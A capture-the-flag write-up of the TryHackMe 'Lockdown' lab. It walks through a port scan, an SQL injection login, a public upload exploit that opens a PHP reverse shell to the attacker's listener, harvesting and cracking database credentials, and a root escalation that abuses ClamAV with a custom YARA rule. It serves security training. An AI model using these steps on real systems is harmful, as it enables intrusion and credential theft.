



| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/lockdown) | Medium | [hangrymoose](https://tryhackme.com/p/hangrymoose)  |

## Reconn

Hey! Welcome back!

Once again we are running `nmap` against this machine, to see what services are running!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.51.197 -p- -sS --min-rate 5000 -n -Pn                                                         ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 10:02 CEST
Nmap scan report for 10.10.51.197
Host is up (0.072s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Simple machine for now, 2 open ports `22` running `ssh` and the `80` running a `web`.

Let's go to the web!

If you try to go directy to the IP of the machine, you will probably see this:



Because we have to add the following line to our `/etc/hosts` file:

`{MACHINE_IP} contacttracer.thm`

_Edit the `{MACHINE_IP}` with the IP of the machine._

After that, we can go to the page.



We can see a normal page, a `Contact Tracer` for the Coronavirus, very useful on this pandemic situation...

We have an `admin` login! Maybe we can exploit an `SQLi` like this...


And we succed!

We can see a normal page, what the interesting thing is at the lower right:



We have the version of this platform, an we can now search for a public exploit!

That we found [here](https://www.exploit-db.com/exploits/49604). Also I tweaked a little this exploit to have a better shell, you can find it [here](exp.py)

So let's run the exploit!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ python3 exp.py contacttracer.thm 10.9.2.74 1337                                                                ─╯
(+) Uploading php reverse shell..
(+) File upload seems to have been successful!
(+) Now trying to trigger our shell..

(+) done!


-----------

[Terminal 2]


╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.51.197] 55832
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:17:55 up 43 min,  0 users,  load average: 0.00, 0.00, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (993): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We are in!

## Foothold - User

We are in, but we can't read the user's flag.

So searching for interesting files, I found a mysql connection's credentials!

We can use them to login to the `mysql` server!
```bash
www-data@lockdown:/tmp$ cat /var/www/html/classes/DBConnection.php 
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'Y[REDACTED]E';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
}
www-data@lockdown:/tmp$ mysql -u cts -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 461
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cts_db             |
+--------------------+
2 rows in set (0.00 sec)

mysql> use cts_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_cts_db |
+------------------+
| barangay_list    |
| city_list        |
| establishment    |
| people           |
| state_list       |
| system_info      |
| tracks           |
| users            |
+------------------+
8 rows in set (0.00 sec)

mysql> select * from users;
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
| id | firstname    | lastname | username | password     | avatar                        | last_login | date_added          | date_updated        |
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 3[REDACTED]d | uploads/1614302940_avatar.jpg | NULL       | 2021-01-20 14:02:37 | 2021-02-26 10:23:23 |
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> 
```
And we have now a hashed password!

We have many ways to de-hash it!

I'm gonna use `STH (Search That Hash)`. But you can use `crackstation` or even `john`.

```bash

╰─ lanfran@parrot ❯ sth --text "3[REDACTED]d"                                                                  ─╯

  _____                     _        _______ _           _          _    _           _
 / ____|                   | |      |__   __| |         | |        | |  | |         | |
| (___   ___  __ _ _ __ ___| |__ ______| |  | |__   __ _| |_ ______| |__| | __ _ ___| |__
 \___ \ / _ \/ _` | '__/ __| '_ \______| |  | '_ \ / _` | __|______|  __  |/ _` / __| '_ \
 ____) |  __/ (_| | | | (__| | | |     | |  | | | | (_| | |_       | |  | | (_| \__ \ | | |
|_____/ \___|\__,_|_|  \___|_| |_|     |_|  |_| |_|\__,_|\__|      |_|  |_|\__,_|___/_| |_|
        
https://twitter.com/bee_sec_san
https://github.com/HashPals/Search-That-Hash
https://twitter.com/Jayy_2004


3[REDACTED]d

Text : s[REDACTED]m
Type : MD5
```

We have now the plain text password!

Let's see if any user reused this password...

```bash
www-data@lockdown:/home$ su cyrus
Password: 
cyrus@lockdown:/home$ cat /home/cyrus/user.txt 
THM{[REDACTED]}
```
Luckily for us, the user `cyrus` reused the password and we now have the user's flag!


## Root

To get the root's flag, we have to follow an interesting path...

First, we can run an script with `sudo`
```bash
cyrus@lockdown:/home$ sudo -l
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
cyrus@lockdown:/home$
```
Reading this script, it will trigger an scan on the path that we give to it...

```bash
cyrus@lockdown:/home$ cat /opt/scan/scan.sh
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
cyrus@lockdown:/home$
```
Looking around, we can see that to check for "viruses" on a file, the script will check a DB

```bash
cyrus@lockdown:/home$ cat /etc/clamav/freshclam.conf 
# Automatically created by the clamav-freshclam postinst
# Comments will get lost when you reconfigure the clamav-freshclam package

DatabaseOwner clamav
UpdateLogFile /var/log/clamav/freshclam.log
LogVerbose false
LogSyslog false
LogFacility LOG_LOCAL6
LogFileMaxSize 0
LogRotate true
LogTime true
Foreground false
Debug false
MaxAttempts 5
DatabaseDirectory /var/lib/clamav                   <----- Here
DNSDatabaseInfo current.cvd.clamav.net
ConnectTimeout 30
ReceiveTimeout 30
TestDatabases yes
ScriptedUpdates yes
CompressLocalDatabase no
SafeBrowsing false
Bytecode true
NotifyClamd /etc/clamav/clamd.conf
# Check for new database 24 times a day
Checks 24
DatabaseMirror db.local.clamav.net
DatabaseMirror database.clamav.net
cyrus@lockdown:/home$
```
And here we have the Databases...

```bash
cyrus@lockdown:/home$ ls -la /var/lib/clamav
total 20
drwxrwxrwx  2 clamav clamav 4096 Oct 23 11:00 .
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11 04:26 mirrors.dat
cyrus@lockdown:/home$
```

So, to check for viruses is using `YARA rules`... You can read more about this in this [link](https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/).

But basically we can create out own `YARA` rule to read the root's flag, like this:

```bash
cyrus@lockdown:/tmp$ cat rule.yar
rule PWNED
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $b or $a
}
```
This rule will search for any file with the `strings` THM or root.

Now let's copy this rule to the folder where the script is looking for the DBs and Rules...
```bash
cyrus@lockdown:/tmp$ cd /var/lib/clamav
cyrus@lockdown:/var/lib/clamav$ ls -la
total 16
drwxrwxrwx  2 clamav clamav 4096 Oct 23 10:47 .
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11 04:26 mirrors.dat
cyrus@lockdown:/var/lib/clamav$ cp /tmp/rule.yar .
```
Great, let's now run the script with sudo, and let's use the path to the root's flag!

```bash
cyrus@lockdown:/var/lib/clamav$ sudo /opt/scan/scan.sh
Enter path: /root/root.txt
/root/root.txt: YARA.CheckFileName.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.018 sec (0 m 0 s)
Start Date: 2021:10:23 11:00:49
End Date:   2021:10:23 11:00:49
```
The exploit worked as expected! We now have a file in "quarantine", and this file is the root's flag! So let's read it!!!
```bash
cyrus@lockdown:/var/lib/clamav$ cat /home/cyrus/quarantine/root.txt
THM{[REDACTED]}
```
And we rooted the machine!

That's all from my side, hope you find this helpful!